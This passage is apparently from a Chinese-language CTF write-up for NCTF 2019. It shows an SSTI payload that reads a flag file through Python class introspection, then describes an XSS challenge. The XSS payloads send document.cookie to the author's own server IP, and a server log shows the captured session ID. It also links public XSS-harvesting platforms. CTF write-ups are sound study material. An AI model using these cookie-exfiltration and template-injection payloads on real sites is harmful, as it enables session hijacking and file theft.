 ```
{{"".__class__.__mro__[2].__subclasses__()[40]("../fl"+"ag").read()}}
```

`NCTF{Y0u_can_n0t_Read_flag_directly}`

### simple_XSS [Unsolved]

#### 尝试1

想要尝试向自己的服务器发admin的cookie：

有好多种xss的方法。一种是直接使用js

```javascript
<script>window.location.href="http://45.32.9.0/?cookie="+encodeURI(document.cookie);</script>
```

但几次实验后，发现对js的长度是有限制的。  

（以为是对js的一些函数进行了过滤，但实际上并没有）  

之后尝试加载远程js的方式：在自己的服务器上放了个xss.js，代码如下：  

```javascript
root@vultr:~# cat /var/www/html/xss.js

window.location.href="http://45.32.9.0?cook="+escape(document.cookie);
```

(经过试验，encodeURI这个方法并不能完整地传回cookie，还是使用escape方法)之前使用了GET方法向服务器传了很多cookie参数，所有这次用cook参数  

给题目中自己创建的用户发送xss消息如下

```html
<script src=http://45.32.9.0/xss.js></script>
```

查看服务器端的访问日志`/var/log/apache2/access.log`发现成功进行了跳转和接收cookie。（cook后面的内容就是sessionID）  

```bash
root@vultr:~# cat /var/log/apache2/access.log | grep cook=

59.64.129.66 - - [23/Nov/2019:18:33:06 +0000] "GET /?cook=PHPSESSID%3Dd1a1febd6814437dbad2a31e7694f8e7%3B%20user%3D34907cfa1ba4fba6e777c6b7e2806f49 HTTP/1.1" 200 812 "http://nctf2019.x1ct34m.com:40001/home.php" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0"
```

但是用这个方法给admin传xss，并没有收到admin的cookie...  

#### 尝试2

刚才的思路专业一点，就成为了XSS平台。这个平台可以加载各种各样的xss，并在平台上接收不小心点击XSS的人的信息，只要你在具有XSS漏洞的网站上复制了特定的代码。

[XSS平台-安全测试](http://xsspt.com/index.php)  

[另一个平台](https://xsshs.cn/xss.php)

`NCTF{Th1s_is_a_Simple_xss}`

### Fake XML Cookbook
